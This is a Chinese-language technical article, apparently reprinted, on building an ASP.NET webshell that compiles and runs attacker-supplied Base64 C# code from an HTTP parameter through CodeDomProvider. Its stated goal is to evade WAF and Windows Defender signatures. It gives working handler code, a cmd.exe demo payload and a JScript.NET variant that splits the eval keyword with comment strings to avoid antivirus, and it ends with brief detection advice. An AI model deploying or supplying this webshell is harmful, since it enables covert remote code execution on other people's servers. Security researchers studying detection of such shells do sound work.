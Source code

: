 ```yaml
---
title: 基于.NET动态编译技术实现任意代码执行
slug: be-based-on-dotNet-dynamic-compilation-technology-to-realize-arbitrary-code-execution
description: .Net可通过编译技术将外部输入的字符串作为代码执行，动态编译技术提供了最核心的两个类
date: 2022-05-15 23:15:14
copyright: Reprinted
author: Ivan1ee dotNet安全矩阵
originaltitle: 基于.NET动态编译技术实现任意代码执行
originallink: https://mp.weixin.qq.com/s/eZgnxEihQu-KULLeLJatCw
draft: False
cover: https://img1.dotnet9.com/2022/05/cover44.gif
categories: .NET相关
---
```


![](https://img1.dotnet9.com/2022/05/cover44.gif)

## 一、前言

当下主流的Waf或Windows Defender等终端杀软、EDR大多都是从特征码查杀，在.Net和VBS下一句话木马中最常见的特征是eval，对于攻击者来说需要避开这个系统关键字，可从反序列化方式避开eval，但公开已久相信很多安全产品已经能够很好检测和阻断这类攻击请求。笔者从.NET 内置的CodeDomProvider类下手实现动态编译.NET代码，指明JScrip或者C#作为编译语言，编译的WebShell目前`Windows Defender不会查杀`。而防御者从流量或终端识别 "CodeDomProvider.CreateProvider、CreateInstance"等特征码。

## 二、动态编译

.Net可通过编译技术将外部输入的字符串作为代码执行，动态编译技术提供了最核心的两个类`CodeDomProvider` 和 `CompilerParameters`，前者相当于编译器，后者相当于编译器参数，CodeDomProvider支持多种语言（如C#、VB、Jscript），编译器参数CompilerParameters.GenerateExecutable默认表示生成dll，`GenerateInMemory= true`时表示在内存中加载，CompileAssemblyFromSource表示程序集的数据源，再将编译产生的结果生成程序集供反射调用。最后通过CreateInstance实例化对象并反射调用自定义类中的方法。

```csharp
CodeDomProvider compiler = CodeDomProvider.CreateProvider("C#"); ;     //编译器
CompilerParameters comPara = new CompilerParameters();   //编译器参数
comPara.ReferencedAssemblies.Add("System.dll"); //添加引用
comPara.GenerateExecutable = false; //生成exe
comPara.GenerateInMemory = true; //内存中
CompilerResults compilerResults = compiler.CompileAssemblyFromSource(comPara, SourceText(txt)); //编译数据的来源
Assembly objAssembly = compilerResults.CompiledAssembly; //编译成程序集
object objInstance = objAssembly.CreateInstance("Neteye.NeteyeInput"); //创建对象
MethodInfo objMifo = objInstance.GetType().GetMethod("OutPut"); //反射调用方法
var result = objMifo.Invoke(objInstance, null);
```

## 三、落地实现

上述代码里的SourceText方法需提供编译的C#源代码，笔者创建了NeteyeInput类，如下

```csharp
public static string SourceText(string txt)
{
    StringBuilder sb = new StringBuilder();
    sb.Append("using System;");
    sb.Append(Environment.NewLine);
    sb.Append("namespace  Neteye");
    sb.Append(Environment.NewLine);
    sb.Append("{");
    sb.Append(Environment.NewLine);
    sb.Append("    public class NeteyeInput");
    sb.Append(Environment.NewLine);
    sb.Append("    {");
    sb.Append(Environment.NewLine);
    sb.Append("        public void OutPut()");
    sb.Append(Environment.NewLine);
    sb.Append("        {");
    sb.Append(Environment.NewLine);
    sb.Append(Encoding.GetEncoding("UTF-8").GetString(Convert.FromBase64String(txt)));
    sb.Append(Environment.NewLine);
    sb.Append("        }");
    sb.Append(Environment.NewLine);
    sb.Append("    }");
    sb.Append(Environment.NewLine);
    sb.Append("}");
    string code = sb.ToString();
    return code;
}
```

类里声明了OutPut方法，该方法里通过Base64解码得到输入的原生字符串，笔者在这里以计算器作为演示，将`“System.Diagnostics.Process.Start("cmd.exe","/c calc");”`编码为

```shell
U3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MuU3RhcnQoImNtZC5leGUiLCIvYyBjYWxjIik7
```

最后在一般处理程序ProcessRequest方法中调用

```csharp
public void ProcessRequest(HttpContext context)
{
    context.Response.ContentType = "text/plain";
    if (!string.IsNullOrEmpty(context.Request["txt"]))
    {
        DynamicCodeExecute(context.Request["txt"]); //start calc: U3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MuU3RhcnQoImNtZC5leGUiLCIvYyBjYWxjIik7
        context.Response.Write("Execute Status: Success!");
    }
    else
    {
        context.Response.Write("Just For Fun, Please Input txt!");
    }
}
```

![](https://img1.dotnet9.com/2022/05/4401.png)

## 四、其他方法

Jscript.Net 动态编译拆解eval

在.NET安全领域中一句话木马主流的都是交给eval关键词执行，而很多安全产品都会对此重点查杀，所以笔者需要`避开eval`，而在.NET中eval只存在于Jscript.Net，所以需要将动态编译器指定为Jscript，其余和C#版本的动态编译基本一致，笔者通过插入无关字符将eval拆解掉，代码如下

```csharp
private static readonly string _jscriptClassText =
        @"import System;
            class JScriptRun
            {
                public static function RunExp(expression : String) : String
                {
                    return e/*@Ivan1ee@*/v/*@Ivan1ee@*/a/*@Ivan1ee@*/l(expression);
                }
            }";
```

只需在编译的时候替换掉无关字符串“/*@Ivan1ee@*/”，最后编译后反射执行目标方法。

```csharp
CompilerResults results = compiler.CompileAssemblyFromSource(parameters, _jscriptClassText.Replace("/*@Ivan1ee@*/",""));
```

## 五、防御措施

- 一般web应用使用场景不多，检测特征码：CodeDomProvider.CreateProvider、CreateInstance等等，一旦告警需格外关注；

- 由于编译生成的程序集以临时文件保存在硬盘，需加入对可写目录下dll文件内容的监控；

- 文章涉及的代码已经打包在: [https://github.com/Ivan1ee/.NETWebShell](https://github.com/Ivan1ee/.NETWebShell)